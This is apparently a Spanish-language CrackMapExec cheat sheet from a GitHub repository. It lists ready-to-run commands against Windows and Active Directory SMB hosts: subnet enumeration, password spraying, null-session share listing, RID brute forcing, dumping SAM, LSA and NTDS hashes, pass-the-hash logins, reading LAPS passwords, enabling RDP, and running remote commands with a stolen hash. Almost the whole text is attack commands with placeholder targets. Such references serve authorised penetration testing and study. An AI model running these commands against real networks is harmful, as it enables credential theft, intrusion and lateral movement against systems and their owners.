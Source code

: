 # CrackMapExec Cheat Sheet

#### Listar equipos dentro de la red de un AD
```
crackmapexec smb 192.168.1.0/24
```

### SMB con credenciales a dominio WORKGROUP
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' -d WORKGROUP
```

#### Password Spraying
```
crackmapexec smb 192.168.1.0/24 -u '<USERNAME>' -p listpassword.txt
```

### Spraying Attack con usuario y contraseña lineal
```
crackmapexec smb <IP-Address> -u users.txt -p passwd.txt --no-bruteforce --continue-on-success
```

### Spraying Attack
```
crackmapexec smb <IP-Address> -u users.txt -p '<PASSWORD>' --continue-on-success
```

#### Conocer en que equipos se puede autenticar especificando un usuario y password
```
crackmapexec smb 192.168.1.0/24 -u '<USERNAME>' -p '<PASSWORD>'
```

#### Enumeración de directorios compartidos SMB con NULL session
```
crackmapexec smb <IP-Address> -u 'null' -p ' ' --shares
```

### Brute Force de usuarios
```
crackmapexec smb <IP> -u 'guest' -p '' --rid-brute
```

#### Dumping Hashes SAM
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --sam
```

#### Dumping Hashes NTLM
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --ntds
```

### Dumpear Hashes LSA
```
crackmapexec smb <IP-Address> -u 'Administrator' -p '<PASSWORD>' --lsa
```

### Dumpear Hashes NTD
```
crackmapexec smb <IP-Address> -u 'Administrator' -H '<HASH-NT>' --ntds vss
```

#### PassTheHash
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -H '<HASH>' --local-auth
```

### LAPS
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --laps
```

#### Habilitar RDP con usuario y password de Administrador
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' -M rdp -o action=enable
```

#### Ejecutar comandos usando el Hash
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -H '<HASH>' -d <GROUP> -x 'COMMAND'
crackmapexec smb <IP-Address> -u '<USERNAME>' -H '<HASH>' -d <GROUP> -X 'COMMAND'
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)